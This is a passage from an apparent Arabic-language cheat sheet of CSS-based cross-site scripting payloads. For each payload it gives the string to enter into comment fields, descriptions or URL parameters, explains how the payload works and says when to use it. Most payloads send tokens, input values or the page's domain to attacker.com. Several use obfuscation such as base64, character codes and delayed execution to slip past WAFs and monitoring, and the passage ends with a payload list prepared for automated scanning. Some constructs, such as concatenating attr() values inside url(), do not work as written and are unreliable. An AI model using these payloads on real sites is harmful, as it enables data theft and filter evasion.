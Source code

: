   - **الإدخال**: أدخل في حقل تعليق: `<style>p::after { content: 'secret'; background-image:url('http://attacker.com/log?text=secret'); }</style>`
  - **كيف يعمل**: يرسل نصًا ثابتًا إذا كان موجودًا.
  - **متى يُستخدم؟**: لتأكيد وجود نص معين.
- **الحقن**: `<style>[data-token]::after { content: attr(data-token); background-image:url('http://attacker.com/log?token='+attr(data-token)); }</style>`
  - **الإدخال**: أدخل في وصف: `<style>[data-token]::after { content: attr(data-token); background-image:url('http://attacker.com/log?token='+attr(data-token)); }</style>`
  - **كيف يعمل**: يرسل قيمة السمة `data-token`.
  - **متى يُستخدم؟**: لتسريب بيانات مخصصة.

#### هـ. حقن مع التعتيم
استخدام تقنيات التعتيم لتجنب الكشف.
- **الحقن**: `<div style="width:expression(eval(atob('YWxlcnQoJ1hTUycp')))">`
  - **الإدخال**: أدخل في حقل نصي: `<div style="width:expression(eval(atob('YWxlcnQoJ1hTUycp')))">`
  - **كيف يعمل**: يفك تشفير Base64 لتنفيذ تنبيه.
  - **متى يُستخدم؟**: لتجاوز فلاتر WAF في IE.
- **الحقن**: `<style>input[value="secret"] { background-image:url(//attacker.com/log?value=secret); }</style>`
  - **الإدخال**: أدخل في وصف: `<style>input[value="secret"] { background-image:url(//attacker.com/log?value=secret); }</style>`
  - **كيف يعمل**: يستخدم صيغة URL مختصرة لتسريب القيمة.
  - **متى يُستخدم؟**: لتجنب فلاتر URL.
- **الحقن**: `<div style="background: url('http://attacker.com/log?d='+String.fromCharCode(100,111,99,117,109,101,110,116,46,100,111,109,97,105,110))">`
  - **الإدخال**: أدخل في حقل تعليق: `<div style="background: url('http://attacker.com/log?d='+String.fromCharCode(100,111,99,117,109,101,110,116,46,100,111,109,97,105,110))">`
  - **كيف يعمل**: يستخدم رموز ASCII لتسريب النطاق.
  - **متى يُستخدم؟**: لتجاوز فلاتر البحث عن الكلمات.
- **الحقن**: `<style>input[value^="s"] { background-image:url('http://attacker.com/log?value='+encodeURIComponent('s')); }</style>`
  - **الإدخال**: `https://example.com/?style=input[value^="s"]{background-image:url('http://attacker.com/log?value='+encodeURIComponent('s'))}`
  - **كيف يعمل**: يشفر القيمة لتجنب أخطاء URL.
  - **متى يُستخدم؟**: لتجنب مشكلات التنسيق.
- **الحقن**: `<div style="width:expression(setTimeout('alert(\"XSS\")',1000))">`
  - **الإدخال**: أدخل في وصف: `<div style="width:expression(setTimeout('alert(\"XSS\")',1000))">`
  - **كيف يعمل**: يؤخر تنفيذ التنبيه لتجنب الكشف.
  - **متى يُستخدم؟**: لتجنب أنظمة المراقبة الفورية.

### 2. الحقن للأتمتة
تُستخدم هذه الحقن مع سكربتات (مثل Python مع مكتبة `requests` أو `selenium`) لأتمتة اختبار مجموعة من الحقن المستخدمة في XSS القائم على CSS وتحليل الاستجابات.

#### أ. إعداد قائمة الحقن
- **المحاولات**:
  - إنشاء قائمة بالحقن التي تستخدم خصائص وتعبيرات CSS.
  - مثال قائمة:
    ```
    <div style="background-image:url('http://attacker.com/log?d='+document.domain)">
    <style>input[value="secret"] { background-image:url('http://attacker.com/log?value=secret'); }</style>
    <div style="width:expression(alert('XSS'))">
    <style>[data-token="abc123"] { background-image:url('http://attacker.com/log?token=abc123'); }</style>
    <style>p::after { content: attr(data-secret); background-image:url('http://attacker.com/log?s='+attr(data-secret)); }</style>
    ```
- **كيف يعمل**:
  - يتم إرسال الحقن عبر نقاط إدخال (مثل حقول نصية، معلمات URL، أو ملفات CSS).
  - يتم مراقبة الخادم الخارجي لتأكيد استلام البيانات.
- **متى يُستخدم؟**:
  - عند اختبار نقاط إدخال متعددة بسرعة.
